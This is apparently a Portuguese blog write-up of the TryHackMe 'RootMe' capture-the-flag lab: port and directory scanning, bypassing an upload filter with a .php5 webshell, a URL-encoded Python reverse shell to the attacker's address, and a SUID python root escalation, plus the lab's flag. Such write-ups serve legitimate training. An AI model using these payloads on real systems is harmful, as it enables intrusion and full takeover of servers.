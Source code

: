 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - RootMe - Fácil
date: 2024-01-15 19:01:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, SUID, facil]     # TAG names should always be lowercase
show_image_post: true
---
```

![Alt text](/assets/img/rootmelogo.png){: w="100" h="100" .left}

---
# THM - Root Me - Fácil
---
## **Enumeração**

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s  10.10.246.13 --min-rate 10000 -oA nmapvers -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-13 21:29 -03
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 21:29 (0:00:07 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 21:29 (0:00:00 remaining)
Nmap scan report for 10.10.246.13
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.57 seconds
```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.246.13/uploads              (Status: 200) [Size: 743]
http://10.10.246.13/js                   (Status: 200) [Size: 958]
http://10.10.246.13/css                  (Status: 200) [Size: 1125]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/panel                (Status: 200) [Size: 732]
http://10.10.246.13/server-status        (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
Progress: 249136 / 249140 (100.00%)
===============================================================
Finished
===============================================================
```
{: .nolineno }


## **Acesso**

Encontrado pagina de upload de arquivos

http://10.10.246.13/panel 

![Alt text](/assets/img/rootme1.png)

Bloqueio de envio de arquivos php, bypass renomeando arquivo para .php5

### Upload de webshell

![Alt text](/assets/img/rootme2.png)

Encontrado arquivo website.zip na home do site

```shell
└─$ ls -R Website          
Website:
css  index.php  js  panel  uploads

Website/css:
home.css  panel.css

Website/js:
maquina_de_escrever.js

Website/panel:
index.php

Website/uploads:
'CAPA CANAL NOVO.png'   shell.php5
```
{: .nolineno }

### Reverse Shell 

```text
http://10.10.246.13/uploads/sh.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

### Primeira Flag

```shell
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt 
THM{y0u_g0t_a_sh3ll}
```
{: .nolineno }


## **Escalação de Privilegio**

sudo -l precisa de senha
Busca por arquivos SUID

```shell
find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000
```
{: .nolineno }

Encontrado /usr/bin/python

No [GTFObins]([https://](https://gtfobins.github.io/gtfobins/python/#suid)) como obter root através de SUID no python.  
`./usr/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

### **Última flag encontrada** 
![Alt text](/assets/img/rootme4.png){: .w-75 .normal}
    
